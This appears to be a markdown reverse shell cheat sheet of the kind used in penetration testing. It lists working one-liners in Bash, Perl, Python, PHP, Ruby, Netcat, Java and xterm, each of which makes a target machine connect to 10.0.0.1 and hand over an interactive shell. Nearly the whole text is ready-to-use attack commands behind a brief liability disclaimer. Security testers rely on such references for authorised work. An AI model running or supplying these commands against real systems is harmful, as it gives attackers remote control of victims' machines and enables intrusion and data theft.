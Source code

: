 # Reverse Shell Cheat Sheet
`These information may be used for legal purposes only.  Users take full responsibility for any actions performed using what they learned.  The author accepts no liability for damage caused.  If these terms are not acceptable to you, then do not use any of it.`

```The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.```

## Bash
~~~
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
~~~
## PERL
~~~
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~~

## Python
tested under Linux / Python 2.7:
~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

## PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5 or 6
~~~
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
~~~

## Ruby
~~~
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
~~~

## Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
~~~
nc -e /bin/sh 10.0.0.1 1234
~~~

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
~~~
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
~~~

## Java
~~~
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
~~~

## xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
~~~
xterm -display 10.0.0.1:1
~~~

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
~~~
Xnest :1
~~~

You’ll need to authorise the target to connect to you (command also run on your host):
~~~
xhost +targetip
~~~
